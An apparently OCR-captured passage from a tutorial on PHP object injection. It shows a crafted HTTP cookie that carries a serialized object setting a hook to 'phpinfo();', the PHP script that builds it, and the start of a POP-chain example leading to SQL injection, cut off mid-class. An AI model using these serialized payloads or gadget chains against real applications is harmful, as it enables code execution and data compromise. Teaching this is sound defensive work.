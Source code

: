 ```
In this example an attacker might be able to perform a Code Injection attack by sending an HTTP request like this:

GET /vuln.php HTTP/1.0
Host: testsite.com
Cookie: data=O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
Connection: close
```

```
data=O:8:"Example2":1:{s:14:"Example2":"hook";s:10:"phpinfo();";}
```

```
Where the cookie parameter "data" has been generated by the following script:

class Example2
{
   private $hook = "phpinfo();";
}

print urlencode(serialize(new Example2));

```

```
Example 3

This last example shows how it is possible to perform a SQL Injection attack using a "POP chain", for instance by leveraging a __toString method like this:

class Example3
{
   protected $obj;

   function __construct()
   {
      // some PHP code...
   }

   function __toString()
   {
      if (isset($this->obj)) return $this->obj->getValue();
   }
}

// some PHP code...

$user_data = unserialize($_POST['data']);

// some PHP code...

If the $user_data variable is an "Example3" object and it will be treated like a string somewhere in the code, then its __toString method will be called. Since this method will call the getValue method of the object stored into the "obj" property, it's possible to set that property to an arbitrary object, and execute its getValue method, if it is accessible, otherwise its __call method will be called, if it is defined. For the sake of ease, just think that when unserialize() is called, the class below is available within the application scope (or supported by autoloading):

class SQL_Row_Value
{
   private $_table;

   // some PHP code...
```